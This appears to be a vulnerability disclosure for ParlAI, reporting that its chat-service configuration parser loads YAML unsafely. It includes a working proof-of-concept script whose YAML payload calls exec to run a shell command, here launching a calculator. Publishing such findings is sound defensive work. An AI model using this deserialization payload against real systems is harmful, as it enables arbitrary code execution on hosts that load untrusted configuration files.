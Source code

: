 # Description
ParlAI is a framework for training and evaluating AI models on a variety of openly available dialogue datasets. 
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.system('pip3 install parlai')
from parlai.chat_service.utils import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.parse_configuration_file('config.yml')
```
* `pip3 install parlai`
* `python3 exploit.py`

# Impact
Arbitrary Code Execution
